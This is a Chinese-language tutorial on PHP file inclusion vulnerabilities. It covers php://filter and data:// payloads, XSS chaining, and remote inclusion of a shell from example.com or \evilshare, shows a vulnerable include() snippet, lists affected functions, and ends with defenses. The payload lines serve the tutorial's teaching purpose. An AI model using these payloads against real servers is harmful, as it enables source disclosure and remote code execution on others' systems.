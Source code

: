#### 利用 php 流 filter: 

::: tip 攻击方式
?file=php://filter/convert.base64-encode/resource=index.php<br>
(需要 allow_url_include=On)
:::

#### 利用 data URIs: 

::: tip 攻击方式
?file=data://text/plain; base64, SSBsb3ZlIFBIUAo=<br>
(需要 allow_url_include=On)
:::

#### 利用 XSS 执行任意代码: 

::: tip 攻击方式
?file=<http://127.0.0.1/path/xss.php?xss=phpcode><br>
(需要 allow_url_fopen=On, allow_url_include=On 并且防火墙或者白名单不允许访问外网时, 先在同站点找一个 XSS 漏洞, 包含这个页面, 就可以注入恶意代码了。条件非常极端和特殊- -)
:::

## 有限制的远程文件包含

``` php
<?php include($_GET['file'] . ".htm");?>
```

::: tip 攻击方式
?file=<http://example.com/shell><br>
?file=<http://example.com/shell.txt?><br>
?file=<http://example.com/shell.txt%23><br>
(需要 allow_url_fopen=On 并且 allow_url_include=On)<br>
?file=\evilshare\shell.php (只需要 allow_url_include=On)
:::

## 延伸

其实在前面也说了, 这些漏洞产生原因是 PHP 函数在引入文件时, 传入的文件名没有经过合理的校验, 从而操作了预想之外的文件。实际上我们操作文件的函数不只是 include()一个, 上面提到的一些截断的方法同样可以适用于以下函数: 

* **fopen**
* **file_get_contents**
* **copy**
* **parse_ini_file**
* **readfile**
* **file_put_contents**
* **mkdir**
* **tempnam**
* **move_uploaded_file**
* **rename**
* **unlink**
* **rmdir**
* **require**
* **require_once**
* **include_once**
* **ZipArchive::open()**

## 漏洞防御

* PHP 中使用 open_basedir 配置, 将访问限制在指定区域
* 过滤 `./\` 
* 禁止服务器远程文件包含

